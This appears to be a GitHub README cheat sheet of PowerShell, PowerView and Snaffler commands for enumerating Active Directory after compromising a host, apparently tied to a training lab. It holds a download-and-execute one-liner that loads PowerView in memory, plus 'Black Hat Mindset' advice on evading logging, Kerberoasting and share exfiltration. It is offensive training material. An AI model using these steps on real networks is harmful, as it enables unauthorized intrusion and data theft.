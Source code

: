 # Active Directory Internal Enumeration

This README is designed to help you explore and enumerate AD environments on Windows-based hosts, uncovering critical information for privilege escalation, lateral movement, or persistence.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [PowerShell AD Cmdlets](#powershell-ad-cmdlets)
- [Scripts](#scripts)
- [Additional Tools](#additional-tools)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

This guide covers commands and scripts to enumerate AD domains, users, groups, trusts, and more from a compromised Windows host. Whether you're testing defenses or learning AD exploitation, these techniques will help you map the network and find exploitable misconfigurations. All commands assume you have appropriate access (e.g., domain user or admin rights) and are executed in PowerShell or Command Prompt.

## Setup and Prerequisites

- **Environment**: A Windows-based host with AD module or PowerView installed.
- **PowerShell**: Open PowerShell with administrative privileges (right-click > "Run as Administrator").
- **AD Module**: Install the Active Directory module if not present (e.g., on a domain-joined machine or via RSAT tools).
- **PowerView**: Download PowerView (e.g., from PowerSploit) and load it into memory (e.g., `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')`).
- **Tools**: Ensure tools like Snaffler are available in your working directory (e.g., `C:\Tools\`).

## PowerShell AD Cmdlets

These native PowerShell cmdlets require the Active Directory module. Load it with `Import-Module ActiveDirectory` before use.

```powershell
Get-Module                   # Lists all loaded PowerShell modules to verify the AD module is available
Import-Module ActiveDirectory # Loads the Active Directory PowerShell module for AD commands
Get-ADDomain                 # Retrieves detailed information about the current Windows domain
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName  # Enumerates user accounts with SPNs
Get-ADTrust -Filter *        # Lists all trust relationships in the target Windows domain
Get-ADGroup -Filter * | select name  # Enumerates all groups in the domain and displays their names
Get-ADGroup -Identity "Backup Operators"  # Searches for a specific group
Get-ADGroupMember -Identity "Backup Operators"  # Discovers members of a specific group
```

## Scripts

PowerView is a powerful AD enumeration tool. Load it into memory and run these scripts to gather detailed domain information.

```powershell
Export-PowerViewCSV          # Appends enumeration results to a CSV file for later analysis
ConvertTo-SID               # Converts a user or group name to its Security Identifier (SID)
Get-DomainSPNTicket        # Requests a Kerberos ticket for a specified SPN
Get-Domain                  # Returns the AD object for the current or specified domain
Get-DomainController       # Lists all domain controllers for the target domain
Get-DomainUser             # Returns all users or specific user objects in AD
Get-DomainComputer         # Returns all computers or specific computer objects in AD
Get-DomainGroup            # Returns all groups or specific group objects in AD
Get-DomainOU               # Searches for all or specific Organizational Unit objects
Find-InterestingDomainAcl  # Identifies domain object ACLs with modification rights
Get-DomainGroupMember      # Returns members of a specific domain group
Get-DomainFileServer       # Lists servers likely functioning as file servers
Get-DomainDFSShare         # Returns all DFS shares for the current domain
Get-DomainGPO              # Returns all Group Policy Objects
Get-DomainPolicy           # Retrieves the default domain policy
Get-NetLocalGroup          # Enumerates local groups on machines
Get-NetLocalGroupMember    # Enumerates members of a specific local group
Get-NetShare               # Lists open shares on machines
Get-NetSession             # Returns session information
Test-AdminAccess           # Tests if current user has administrative access
Find-DomainUserLocation    # Identifies machines where specific users are logged in
Find-DomainShare           # Discovers reachable shares on domain machines
Find-InterestingDomainShareFile  # Searches readable shares for sensitive files
Find-LocalAdminAccess      # Finds machines where current user has admin access
Get-DomainTrust            # Returns domain trusts
Get-ForestTrust            # Returns all forest trusts
Get-DomainForeignUser      # Enumerates users in groups outside their domain
Get-DomainForeignGroupMember  # Enumerates groups with foreign members
Get-DomainTrustMapping     # Enumerates all trusts for the current domain
Get-DomainGroupMember -Identity "Domain Admins" -Recurse  # Lists all Domain Admins members
Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName  # Finds users with SPNs
```

## Additional Tools

Beyond PowerShell and PowerView, these tools enhance AD enumeration.

```powershell
.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data  # Runs Snaffler to find sensitive data
```

## Black Hat Mindset

- **Be Thorough**: Enumerate every user, group, and trust to uncover hidden privileges or misconfigurations.
- **Stay Undetected**: Use in-memory execution for PowerView and avoid writing files to disk to evade logging.
- **Exploit Opportunities**: Target SPNs for Kerberoasting, weak ACLs for privilege escalation, or open shares for data exfiltration.
- **Plan Ahead**: Map the domain trust relationships and GPOs to identify next steps for lateral movement.

## Resources

- Active Directory Basics
- PowerView Documentation
- Snaffler GitHub
- Kerberoasting Guide
- AD Enumeration Cheatsheet

